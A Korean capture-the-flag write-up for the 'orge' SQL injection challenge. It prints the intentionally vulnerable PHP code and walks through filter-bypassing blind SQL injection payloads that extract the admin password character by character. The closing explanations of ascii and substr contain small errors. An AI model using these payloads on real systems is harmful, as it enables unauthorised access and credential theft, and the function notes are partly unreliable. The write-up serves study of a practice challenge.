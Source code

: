 # ORGE

## CODE
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_orge where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_orge where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orge"); 
  highlight_file(__FILE__); 
?>
```

## solution
위 코드를 보면 pw를 알아내야 하기 때문에 이 문제는 blind sql injection문제이다. 일단 admin의 계정이 되는지 확인을 하기 위해서 url 뒤에
```
?pw=' || id='admin'%23
```
위 코드를 입력을 하게 되면 앞에있던 id='guest'가 처리된뒤 id에 admin이 들어가게 되어서 Hello admin이라는 게 뜨게 된다.

다음으로는 이제 pw의 길이를 알아보기 위해서 url뒤에 
```
?pw=' || id='admin' %26%26 length(pw)=8%23
```
위 코드를 입력하게 되면 id에는 admin이들어가고 length함수로 인해서 admin의 pw길이를 알 수가 있다.

이제 id가 admin인 pw를 구하기 위해서는 url뒤에
```
?pw=' || id='admin' %26%26 ascii(substr(pw,1,1))=54%23
```
위 코드를 입력하게 되면 id가 admin인 pw의 첫자리가 ascii로 54인 6이라는 것을 알 수 있다. 이제 이것을 가지고 뒤에도 구해보면
```
?pw=' || id='admin' %26%26 ascii(substr(pw,2,1))=99%23
?pw=' || id='admin' %26%26 ascii(substr(pw,3,1))=56%23
?pw=' || id='admin' %26%26 ascii(substr(pw,4,1))=54%23
?pw=' || id='admin' %26%26 ascii(substr(pw,5,1))=52%23
?pw=' || id='admin' %26%26 ascii(substr(pw,6,1))=100%23
?pw=' || id='admin' %26%26 ascii(substr(pw,7,1))=101%23
?pw=' || id='admin' %26%26 ascii(substr(pw,8,1))=99%23
```
위 처럼 나오므로 pw는 6c864dec이다.

## length
length함수는 인자로 주어진 문자열의 길이를 구하는 것이다.

----

## ascii
문자열의 문자 값을 EBCDIC에서 ASCII 형식으로 변환 해주는 것이다.

----

## substr
```
substr(문자열, 시작index, 길이)
```
문자열에서 시작index부터 길이 만큼 잘라준다
```
ex) substr("Hello world!", 5, 5)
```
이러면 world가 추력이 된다.

--------
